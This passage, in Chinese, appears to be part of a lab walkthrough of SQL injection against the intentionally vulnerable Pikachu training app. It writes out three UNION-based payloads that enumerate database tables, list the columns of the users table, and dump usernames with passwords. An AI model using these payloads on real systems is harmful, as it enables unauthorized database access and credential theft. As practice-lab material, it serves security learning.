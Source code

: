 

查看所有表，输入

```plain
id=-1 union select database(),group_concat(table_name) from information_schema.tables where table_schema='pikachu'
```

![img](../../_img/05-SQL%E6%B3%A8%E5%85%A5/1655882341781-1b254f25-5918-4c22-85c9-67c99f160e48.png)



查看users表中的字段，输入

```plain
id=-1 union select database(),group_concat(column_name) from information_schema.columns where table_name='users'&submit=%E6%9F%A5%E8%AF%A2
```

![img](../../_img/05-SQL%E6%B3%A8%E5%85%A5/1655882348394-0a7990aa-7383-439a-9b5a-a4a5fcdc131f.png)



查看所有账户和密码，输入

```plain
id=-1 union select database(),group_concat(concat_ws('-',username,password)) from pikachu.users&submit=%E6%9F%A5%E8%AF%A2
```

![img](../../_img/05-SQL%E6%B3%A8%E5%85%A5/1655882353866-70572232-34c9-48b6-9f75-9093e119d4c3.png)

